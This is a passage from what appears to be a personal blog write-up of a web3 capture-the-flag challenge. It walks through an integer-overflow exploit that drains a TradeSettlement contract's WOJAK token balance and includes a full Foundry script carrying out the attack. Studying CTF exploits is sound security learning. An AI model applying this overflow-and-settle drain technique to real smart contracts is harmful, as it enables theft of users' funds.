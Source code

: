 1. Siphon some WOJAK wei a few times. This allows us to create a WOJAK trade and pay the 30 wei fee.
2. Create a trade trading WOJAK for WOJAK, with 31 wei as the amount to sell. This leaves the `trade.amountToSell` as just 1. 
2. Scale the trade so that we overflow on the amount to transfer while significantly increasing our trade parameters. Since our `trade.amountToSell` is 1, the amount to scale buy is `(1 << 112) - 30`. The `-30` is included since scaling requires paying a fee.
3. Settle our own trade, with the settling amount as the full balance of WOJAK left in the contract. This exploits the division error, and transfers the full balance to us.
4. Lastly, send the WOJAK to 0xc0ffee to complete the challenge.  

```javascript
function run() external {                                   
    TradeSettlement ts = TradeSettlement(chal.tradeSettlement());        
    IERC20 wojak = IERC20(chal.wojak());
    uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
    vm.startBroadcast(deployerPrivateKey);               
    ts.settleTrade(0, 9);
    ts.settleTrade(0, 9);
    ts.settleTrade(0, 9);
    ts.settleTrade(0, 9);
    ts.settleTrade(0, 9);
    ts.settleTrade(0, 9);
    ts.settleTrade(0, 9);
    ts.settleTrade(0, 9);            
    wojak.approve(address(ts), 70);    
    ts.createTrade(address(wojak),address(wojak),31,0);     
    ts.scaleTrade(1, (1 << 112) - 30);

    (
        address maker,
        address taker,
        address tokenToSell,
        address tokenToBuy,
        uint256 amountToSell,
        uint256 amountToBuy,
        uint256 filledAmountToSell,
        uint256 filledAmountToBuy,            
    ) = ts.getTrade(1);
    ts.settleTrade(1, wojak.balanceOf(address(ts)));    
    wojak.transfer(address(0xc0ffee), 10 ether);      
    vm.stopBroadcast();    
}
```

## Conclusion

This was a fun CTF! I'm leaving out the writeups Ciao and BigenLayer because they were mostly trivial. I was pretty close to solving the Tonyallet chal, but I was down a wrong rabbithole for too long before I could solve it. I'm quite keen to see the writeups of the one-eyed man challenge and the REVMC challenge as well. Maybe I'll give it a bash in my spare time and post some writeups. 

I'm down to try teaming up for CTFs :) I'm keen to learn to play MEV/PWN/REV web3 CTFs, so if that interests you send me a twitter DM!
